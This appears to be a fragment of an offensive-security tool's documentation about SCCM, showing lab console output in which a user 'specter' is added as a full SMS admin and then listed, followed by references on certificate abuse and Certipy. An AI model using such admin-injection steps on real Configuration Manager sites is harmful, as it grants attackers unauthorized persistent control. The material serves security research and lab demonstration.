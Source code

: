```
[06:53:19 PM] INFO     [+] Successfully added specter as an admin.                                                                                           
() (C:\) >> show_admins 
[06:53:20 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:20 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:20 PM] INFO     lab\Administrator                                                                                                                     
[08:46:39 PM] INFO     specter 
```

## References
- Will Schroeder and Lee Chagolla-Christensen, [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- Oliver Lyak, [Certipy](https://github.com/ly4k/Certipy)
- Microsoft, [Plan for PKI certificates in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates)
